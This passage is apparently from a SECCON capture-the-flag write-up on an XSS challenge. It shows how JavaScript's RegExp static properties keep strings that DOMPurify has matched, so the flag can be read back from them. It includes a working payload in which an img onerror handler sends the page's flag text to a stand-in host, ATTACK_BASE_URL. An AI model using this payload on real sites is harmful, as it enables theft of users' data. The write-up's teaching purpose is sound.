 JavaScript has interesting(?) behavior in RegExp:

- [`RegExp.input`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp/input)
- [`RegExp.lastMatch`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp/lastMatch)
- [`RegExp.lastParen`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp/lastParen)
- [`RegExp.leftContext`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp/leftContext)
- [`RegExp.rightContext`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp/rightContext)
- [`RegExp.$1`-`RegExp.$9`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp/n)

`"".match(/^$/)` is a process to delete values of the above static properties. If this line does not exist, you can steal the flag from `RegExp.input` with:
```javascript
document.all["0"]["ownerDocument"]["defaultView"]["RegExp"]["input"]
```

By the way, DOMPurify uses regular expressions when it sanitizes strings:

- E.g.: https://github.com/cure53/DOMPurify/blob/2.4.0/src/purify.js#L957

```javascript
> DOMPurify.sanitize('x<script><SECCON{xxx}')
'x'
> RegExp.input
'<SECCON{xxx}'
> RegExp.rightContext
'ECCON{xxx}'
> document.all["0"]["ownerDocument"]["defaultView"]["RegExp"]["rightContext"]
'ECCON{xxx}'
```

This fact is useful to solve this challenge.

#### Step 3: just a XSS puzzle game!

You are ready to steal the flag.

Example URL:
```javascript
  const emoji = "0/ownerDocument/defaultView/RegExp/rightContext";
  const message = `{{emoji}} S{{emoji}}<p id="}<img src=0 onerror=fetch(\`${ATTACK_BASE_URL}/?text=\`+encodeURIComponent(document.all.message.textContent))>"></p><script><`;
  const url = `http://web:3000/result?${new URLSearchParams({
    emoji,
    message,
  })}`;
```

If you report this URL, the server of `ATTACK_BASE_URL` will receive `ECCON{real_flag} SECCON{REDACTED}">`.

### Solver


[^top-1]: Because of my lack of consideration, many players solved this challenge by unintended solutions :cry:
[^spanote-1]: In fact, you can skip this step because bfcache is disabled by [default options](https://github.com/puppeteer/puppeteer/blob/v19.2.0/packages/puppeteer-core/src/node/ChromeLauncher.ts#L175) of puppeteer.